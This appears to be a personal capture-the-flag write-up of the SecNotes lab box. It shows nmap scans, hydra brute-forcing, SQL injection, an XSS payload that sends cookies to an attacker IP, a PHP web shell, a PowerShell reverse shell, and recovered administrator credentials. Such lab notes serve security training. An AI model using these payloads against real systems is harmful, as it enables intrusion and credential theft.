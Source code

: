 PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h42m36s, deviation: 4h37m09s, median: 2m34s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2021-02-26T07:51:27-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-26T15:51:24
|_  start_date: N/A


# SMB

kali@kali:~/htb/boxes/10.10.10.97$ smbclient --no-pass -L 10.10.10.97 
session setup failed: NT_STATUS_ACCESS_DENIED


# HTTP 80

![](2021-02-26-16-44-14.png)


hydra -l tyler -P ~/htb/rockyou.txt -e ns -vV 10.10.10.97 http-post-form "/login.php:username=^USER^&password=^PASS^:password"

register:

![](2021-02-26-16-47-55.png)


logged in
![](2021-02-26-16-48-22.png)


```
--------------------------------
Files found during testing:

Files found with a 302 responce:

/home.php
/contact.php
/logout.php

Files found with a 200 responce:

/login.php
/register.php

Files found with a 500 responce:

/db.php
/auth.php


--------------------------------
```


contact.php:
![](2021-02-26-16-55-57.png)


## SQL injection
![](2021-02-26-16-50-11.png)

Create account: 
hacker' OR 1=1; -- t

![](2021-02-26-17-19-40.png)


![](2021-02-26-17-20-03.png)



\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&



SMB password works
![](2021-02-26-17-21-03.png)


## XSS
<script>alert("test")</script>

![](2021-02-26-16-50-44.png)
```
<img src=x onerror="this.src='http://10.10.14.3/?c='+document.cookie;"/>
```

 while true; do sudo nc -lvnp  80 ; done


# HTTP 8808
![](2021-02-26-16-49-28.png)


smb://10.10.10.97/new-site/ is writable

![](2021-02-26-17-24-22.png)




<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
</pre>
</BODY></HTML>


powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.3",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()



needed 64 bit nc,  others were deleted
smb: \> put nc64.exe
putting file nc64.exe as \nc64.exe (22.9 kb/s) (average 48.1 kb/s)
smb: \> put /opt/shells/simple-rev.php  simple-rev.php
putting file /opt/shells/simple-rev.php as \simple-rev.php (0.3 kb/s) (average 43.8 kb/s)


![](2021-02-26-18-04-54.png)


drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 



psexec.py administrator@10.10.10.97